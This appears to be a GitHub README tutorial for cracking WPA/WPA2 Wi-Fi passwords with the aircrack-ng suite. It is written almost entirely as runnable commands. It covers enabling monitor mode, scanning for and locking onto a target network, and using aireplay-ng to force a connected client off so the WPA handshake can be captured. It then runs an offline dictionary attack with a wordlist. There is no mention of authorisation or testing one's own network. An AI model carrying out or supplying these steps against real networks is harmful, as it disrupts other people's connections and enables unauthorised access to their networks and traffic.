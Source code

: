 # WPA/WPA2 Wifi Password Hack w/ Aircrack-ng

Sources : 
- https://www.youtube.com/watch?v=zAWcu3NQLME&list=PL7WXNOcf6zc0V5rydTqW6Qymm6lnrt33T&index=2

Instructions :

ONLINE PART

- display network interfaces availables on the machine (common names : wlan0 / wlo1 ...) :
```
iwconfig
```
- display more details about the interface :
```
ifconfig [interface name]
```
- display availables wireless interfaces :
```
airmon-ng
```

`We now want to change the "Managed Mode" into "Monitor Mode" for the purpose of packets capture`

- change our wireless card mode :
```
airmon-ng start [interface name]
```
- check if the mode change worked, the interface name should now end with "mon" :
```
iwconfig
```
- grabbing packets on this interface (channel hopping) :
```
airodump-ng [new interface name]
```

`We have now multiple lines showing availables Wi-Fi in the area, with many informations, we can stop the command when the target appears`

`Keep the terminal open with the informations, we need the BSSID and the channel "CH"`

- Use Airodump to monitor only the target Wi-Fi network :
```
airodump-ng -c [channel number] -d [target BSSID] -w capture [interface name]
```

`We now need to choose one of the clients of the targeted Wi-Fi (know as stations in the terminal) and knock its connection down so that when he try to reconnect, we intercept the WPA handshake to perfom an offline dictionnary attack`

`(do not stop the previous command since it's displaying a msg when the following commands gets what we want -> capture WPA handshake)`


- knock one of the clients connection down :
```
aireplay-ng --deauth 0 -a [router BSSID] -c [client BSSID] [monitor interface]
```

`Wait until the WPA handshake or the PMKID appears on the airodump command then stop the two`

`You have now the capture files`

- make sure you switch your interface back in managed mode : :
```
airmon-ng stop [interface name]
```

OFFLINE PART

- Brute force attack on the capture file :
```
aircrack-ng [captureFile.cap] -w [wordlist]
```

Some wordlists availables :
- https://hackntricks.fr/4-wordlists-pour-brute-force-un-mot-de-passe/
